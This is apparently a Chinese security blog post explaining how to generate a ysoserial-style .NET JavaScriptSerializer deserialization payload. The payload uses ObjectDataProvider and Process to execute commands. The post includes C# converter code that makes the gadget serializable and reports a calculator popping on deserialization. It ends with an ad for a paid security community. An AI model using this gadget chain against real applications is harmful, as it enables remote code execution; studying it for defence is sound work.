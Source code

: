 #  .NET 序列化生成 JavaScriptSerializer Poc   
专攻.NET安全的  dotNet安全矩阵   2023-08-30 08:40  
  
# 0x01 现状  
  
dot.NET安全矩阵星球群  
有位师傅问起如何才能生成和ysoserial一样的JavaScriptSerializer序列化poc，  
同Json.NET一样序列化使用了ObjectDataProvider类，ObjectInstance属性绑定实例化的Process对象，这里没有使用MethodParameters属性传递参数，而是使用ProcessStartInfo类FileName和Arguments属性承载外部传入的命令，知道了原理我们尝试序列化出Ysoserial这段攻击载荷，  
但实践时总抛出异常 System.  
Reflection.RuntimeModule的对象时检测到循环引用。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8LicX2f9ialDtWNzKKFiaDHLPlIUpmzm6PaZg8xMdC4GnhQyibF0FPtqPADhA9q1G4UTcU8dFe8iav36g/640?wx_fmt=png "")  
  
  
解决此问题需要声明一个自定义类继承JavaScriptConverter，  
本身是  
abstract  
抽象类包含成员  
SupportedTypes  
，表示获取  
JavaScriptConverter  
转换器支持的类型，另外包含序列化和反序列化方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8LicX2f9ialDtWNzKKFiaDHLPbGxicYHpQg0AjjUKibEpHPx08hvMSgb5VR7wJUiaXic2ia1mYfJUtpiboceg/640?wx_fmt=png "")  
  
# 0x02 分析  
  
自定义声明ProcessClassConverter类重写Ja  
vaScriptConverter.Serialize方法实现在Dictionary字典中添加自定义的序列化属性。  
核心代码如下  
```
public override IDictionary<string, object> Serialize(object obj, JavaScriptSerializer serializer)
        {
            if(obj.GetType() == typeof(Process)) {
                var process = (Process)obj;
                var serializedProcess = new Dictionary<string, object>();
                serializedProcess["StartInfo"] = process.StartInfo;
                return serializedProcess;
            }
            else if(obj.GetType() == typeof(ObjectDataProvider))
            {
                var objectDataProvider = (ObjectDataProvider)obj;
                var serializedObjectDataProvider = new Dictionary<string, object>();
                serializedObjectDataProvider["MethodName"] = objectDataProvider.MethodName;
                serializedObjectDataProvider["ObjectInstance"] = objectDataProvider.ObjectInstance;
                return serializedObjectDataProvider;
            }
            else
            {
                var serialized = new Dictionary<string, object>();
                return serialized;
            }
        }
```  
  
  
  
根据输入的对象类型进入不同的序列化条件分支，当前被序列化对象如果是Process，则会将Process.StartInfo属性序列化后存储在为字典的项，如果是ObjectDataProvider，将MethodName、ObjectInstance属性序列化为字典的两个项，目的是根据对象类型执行相应的序列化逻辑，并返回相应的序列化结果。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8LicX2f9ialDtWNzKKFiaDHLPrliaB1szly7dJqn2AibZHSib6ic7fRugOZN08jQnSeAUBf6CRI2aqWibAng/640?wx_fmt=png "")  
  
如愿生成和Ysoserial一模一样的Payload，解答了师傅的疑问。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8LicX2f9ialDtWNzKKFiaDHLPPx6ibAnicw4JK8MNhkaccsjWibLCWQ0AV4GXo7RO6p69vqpFZ5vSTg0yQ/640?wx_fmt=png "")  
  
  
通过  
javaScriptDe  
serialize.Deserialize  
反序列化下面改造后的  
JSON  
，成功弹出计算器  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8LicX2f9ialDtWNzKKFiaDHLPV66v2bnGicYricG6ian0ko1Qmvmra7Ohyz9bjGUFwCwOiaTdGG390bPvWg/640?wx_fmt=png "")  
# 欢迎加入星球  
  
为了更好地应对基于.NET技术栈的风险识别和未知威胁，dotNet安全矩阵星球从创建以来一直  
聚焦于.NET领域的安全攻防技术，定位于  
高质量安全攻防星球社区，也  
得到了许多师傅们的支持和信任，通过星球深度连接入圈的师傅们，一起推动.NET安全高质量的向前发展  
。经过运营团队成员商议一致同意给到师傅们最大优惠力度，  
**只需129元就可以加入我们。**  
  
星球汇聚了  
各行业安全攻防技术大咖，并且每日分享.NET安全技术干货以及交流解答各类技术等问题，社区中发布**很多高质量的.NET**  
安全资源，可以说市面上很少见，都是干货。其中主题包括  
**.NET Tricks、漏洞分析、内存马、代码审计、预编译、反序列化、webshell免杀、命令执行、C#工具库**  
等等，后续还会倾力打造  
**专刊、视频**  
等配套学习资源，循序渐进的方式引导加深安全攻防技术提高以及岗位内推等等服务。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8DlZsGiaRRGghficKFQt58Ueoynsb0my3uzMAb7VwM5bgtnb4nbl4c9xdEjGraUXic6pO0p38xmWiaRQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibHErRN3IhgSaicia7Rl5SF0plpcuicd0KG8Cn7vGczlBRtvSJvicWejH7TOro6AGLQ627SvVzxzBnphg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8DlZsGiaRRGghficKFQt58UeoxTMuRezdHEJu6Hp08Xgm2F49cyBI1zlcj5XqLJK8zedWlUjibYmia3g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicwrgQbKv8MSrhTUpM3t1pvz81BGolbmas8t2LXzrkxMV5GEGB6iat5R0bzicW4krDkX6fvxgDibwyHw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9y0BnibYCn1b9GMKqxd1Z5A1DLLJ9YxZeCn52XA1Kw7T5ibWCv89ZXpGjPOY7hXBDRVwNdKbMLZR3A/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YibD85PKSjdDaRdDWkOHJ1gJarOZonDiboGHF5U5mzEVNgAVgVcF75Tou2VCxYjmA3pAvGJnibic1rIlg/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  

